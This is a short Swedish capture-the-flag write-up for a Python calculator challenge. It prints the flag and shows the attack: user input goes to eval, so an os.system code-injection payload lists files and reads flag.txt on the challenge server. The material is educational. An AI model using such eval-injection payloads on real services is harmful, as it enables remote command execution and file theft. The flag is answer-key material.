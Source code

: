 # Pwn: Helt ok miniräknare

- **Skapare:** Herman Karlsson
- **Poäng:** 200
- **Antal lösningar:** 31

## Beskrivning

Evert har lärt sig av sina misstag och har byggt en bättre miniräknare, nu finns det inga buggar alls

I den här uppgiften fick man en ip och port till en server där main.py kördes.

## Flagga

SSM{d0nt_d0_mi5tak3s}

## Lösning

Testa att skriva in lite saker tills något går sönder:
```
Traceback (most recent call last):
  File "main.py", line 14, in <module>
    print(eval(expr))
  File "<string>", line 1, in <module>
NameError: name 'aasf' is not defined

```

Då ser man att det är eval som körs på saker.

Då kan man testa `open("flag.txt")` eller nått, men det går inte.

Istället så kan man köra `__import__("os").system("ls")`, och sedan `__import__("os").system("cat flag.txt")`

## Lösning på livestream

https://www.youtube.com/watch?v=mEeccIodvFQ&t=140s
